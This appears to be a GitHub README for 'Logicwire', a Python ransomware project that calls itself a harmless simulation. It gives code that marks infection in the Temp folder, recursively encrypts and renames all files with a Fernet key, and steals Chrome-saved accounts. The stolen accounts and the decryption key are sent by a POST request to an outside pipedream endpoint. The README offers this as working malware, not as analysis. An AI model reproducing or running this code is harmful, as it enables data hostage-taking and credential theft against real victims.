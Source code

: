 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# File decryption

# Technical operation
### Avoid double encryption
It installs a .tmp signature in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
        for file in files:
            tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```
### Symmetric encryption
A key is generated randomly with Fernet.generate_key() and use it to encrypt all files recursively, including the subdirectories etc...
```python3
f = Fernet(key)
subdirs = [x[0] for x in os.walk(dir)]
for dirdir in subdirs:
        for filename in glob.glob(os.path.join(dirdir, '*.*'), recursive=True):
            with open(filename, "rb") as file:
                file_data = file.read()
                encrypted_data = f.encrypt(file_data)
            with open(filename, "wb") as new:
                new.write(encrypted_data)

            extension = str(filename).split(".")[1]
            name = str(''.join(random.SystemRandom().choice(string.ascii_uppercase + string.digits) for _ in range(10)))
            os.rename(filename, dirdir + "/" + name + "." + extension)
```
### Accounts recovery
It steals the accounts by connecting to the chrome database and sends them back to a pipdream via POST API, then redirects them to the decided webmail.
```python3
r = requests.post("https://en54ygy2ikv5dtk.m.pipedream.net", data={"key": keydecrypt, "logs": rez}, headers={'Content - Type': 'application / json'})
```
